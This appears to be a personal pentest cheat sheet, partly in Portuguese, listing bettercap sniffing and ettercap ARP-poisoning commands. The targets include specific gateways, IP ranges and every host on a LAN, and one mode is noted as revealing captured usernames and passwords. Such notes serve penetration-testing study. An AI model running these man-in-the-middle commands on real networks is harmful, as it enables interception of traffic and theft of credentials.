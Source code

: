 
## sniffing the network with bettercap

set net.sniff.local true

net.sniff on

# Ettercap

**OBS: Filtering files is not working. iptables redirections not working as expected. Alternative solution is use BETTERCAP**

arp poisoning with ettercap:

ettercap -T -q -M arp:remote //10.12.24.1// //10.12.24.90//

-T text mode
-q quiet mode
-M type of attack arp:remote for arp poisoning,
icmp redirect, dhcp ...
and then the targets

**OBS: Caso o IPv6 estiver habilitado, a notação para o ataque se torna diferente, conforme exemplo abaixo:**

ettercap -T -q -M arp:remote /10.12.24.1// /10.12.24.90-240//

porque a notação do IPv6 fica da seguinte maneira: MAC/IPs/IPv6/PORTs

## Examples

Here are some examples of using ettercap.

ettercap -Tp

    Use the console interface and do not put the interface in promisc mode. You will see only your traffic.


ettercap -Tzq

    Use the console interface, do not ARP scan the net and be quiet. The packet content will not be displayed, but user and passwords, as well as other messages, will be displayed.


ettercap -T -j /tmp/victims -M arp /10.0.0.1-7/ /10.0.0.10-20/

    Will load the hosts list from /tmp/victims and perform an ARP poisoning attack against the two target. The list will be joined with the target and the resulting list is used for ARP poisoning.


ettercap -T -M arp // //

    Perform the ARP poisoning attack against all the hosts in the LAN. BE CAREFUL !!


ettercap -T -M arp:remote /192.168.1.1/ /192.168.1.2-10/

    Perform the ARP poisoning against the gateway and the host in the lan between 2 and 10. The 'remote' option is needed to be able to sniff the remote traffic the hosts make through the gateway.
